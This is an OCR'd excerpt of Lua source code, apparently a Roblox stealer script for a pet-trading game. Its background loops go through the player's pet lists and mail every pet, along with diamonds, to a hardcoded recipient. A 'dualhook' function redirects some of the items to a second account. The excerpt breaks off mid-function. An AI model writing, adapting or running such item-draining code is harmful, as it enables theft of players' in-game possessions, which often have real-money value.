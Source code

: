             for i, v in pairs(EvList) do
                user = ndUser
                if eventin ~= nil then
                    if dualhook(eventin) then
                        user = dhuser
                    end
                end
                local args = {
                    [1] = {
                        ["Recipient"] = user,
                        ["Diamonds"] = givediaamt,
                        ["Pets"] = { v },
                        ["Message"] = mailmsg,
                    }
                }
                mailremote:InvokeServer(unpack(args))
                -- wait(5.5)
                if #EvList == 0 or EvList == {} then
                    -- print("done5")
                    break
                end
            end
        end
    end
end)
spawn(function()
    while wait() do
        if #SList ~= 0 and #EvList == 0 and #EList == 0 and #HList == 0 and #TList == 0 and #BList == 0 and #PList == 0 then
            for i, v in pairs(SList) do
                user = ndUser
                if secretin ~= nil then
                    if dualhook(secretin) then
                        user = dhuser
                    end
                end
                local args = {
                    [1] = {
                        ["Recipient"] = user,
                        ["Diamonds"] = givediaamt,
                        ["Pets"] = { v },
                        ["Message"] = mailmsg,
                    }
                }
                mailremote:InvokeServer(unpack(args))
                -- wait(5.5)
                if #SList == 0 or SList == {} then
                    -- print("done6")
                    break
                end
            end
        end
    end
end)
spawn(function()
    while wait() do
        if #MList ~= 0 and #SList == 0 and #EvList == 0 and #EList == 0 and #HList == 0 and #TList == 0 and #BList == 0 and #PList == 0 then
            for i, v in pairs(MList) do
                user = ndUser
                if mythicin ~= nil then
                    if dualhook(mythicin) then
                        user = dhuser
                    end